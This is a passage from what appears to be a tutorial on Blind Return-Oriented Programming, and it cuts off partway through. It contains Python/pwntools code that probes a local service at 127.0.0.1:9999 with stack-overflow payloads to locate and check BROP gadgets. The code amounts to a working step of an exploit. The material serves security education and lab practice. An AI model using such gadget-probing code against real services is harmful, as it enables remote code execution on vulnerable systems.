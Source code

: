 

#### Identifying brop gadgets


Below, we get the corresponding brop gadgets address according to the principle described above. Constructed as follows, get_brop_gadget is to get a possible brop gadget, the latter check_brop_gadget is for checking.


```python

def get_brop_gadget(length, stop_gadget, addr):

    try:

        sh = remote('127.0.0.1', 9999)

        sh.recvuntil('password?\n')

        payload = 'a' * length + p64(addr) + p64(0) * 6 + p64(

            stop_gadget) + p64(0) * 10

        sh.sendline(payload)

        content = sh.recv()

        sh.close()

        print content

        # stop gadget returns memory

        if not content.startswith('WelCome'):

            return False

        return True

    except Exception:

        sh.close()

        return False





def check_brop_gadget(length, addr):

    try:

        sh = remote('127.0.0.1', 9999)

        sh.recvuntil('password?\n')

        payload = 'a' * length + p64(addr) + 'a' * 8 * 10

        sh.sendline(payload)

        content = sh.recv()

        sh.close()

```